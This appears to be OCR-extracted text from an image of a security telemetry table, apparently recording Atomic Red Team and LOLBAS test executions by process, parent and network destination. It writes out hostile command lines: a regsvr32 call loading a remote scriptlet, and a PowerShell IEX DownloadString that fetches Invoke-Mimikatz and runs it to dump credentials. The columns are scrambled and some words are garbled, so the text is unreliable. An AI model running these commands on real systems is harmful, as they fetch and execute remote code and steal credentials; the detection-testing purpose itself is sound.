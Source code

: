 network

powershell.exe

raw.githubusercontent.com

lolbas revello

event_type parent_process_name process_name command_line

destination

regsvr32.exe /s /u /i:https://raw.githubusercontent.com/redcanaryco/

process svchost.exe

regsvr32.exe atomic-red-team/6965fc15ef872281346d99d5eea952907167dec3/ atomics/T1117/RegSvr32.sct scrobj.dll

network process powershell.exe

regsvr32.exe

raw.githubusercontent.com

"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"

"IEX (New-Object Net.WebClient).DownloadString(

powershell.exe 'https://raw.githubusercontent.com/EmpireProject/Empire/dev/data/ module_source/credentials/Invoke-Mimikatz.ps1');

Invoke-Mimikatz -DumpCreds"

network
process
network process network

explorer.exe services.exe

powershell.exe

raw.githubusercontent.com

"C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe" /?

InstallUtil.exe C:\Users\NEWTSC~1\AppData\Local\Temp\ a3541d3f-a4db-c8b0-dab7-c268095df70e.chm

InstallUtil.exe msiexec.exe msiexec.exe

10.10.10.10 C:\Windows\system32\msiexec.exe /V
oscp.digicert.com

lolbas revello

event_type parent_process_name process_name command_line

destination

regsvr32.exe /s /u /i:https://raw.githubusercontent.com/redcanaryco/

process

svchost.e xe Atomic Tesrteingsgvr32.exe
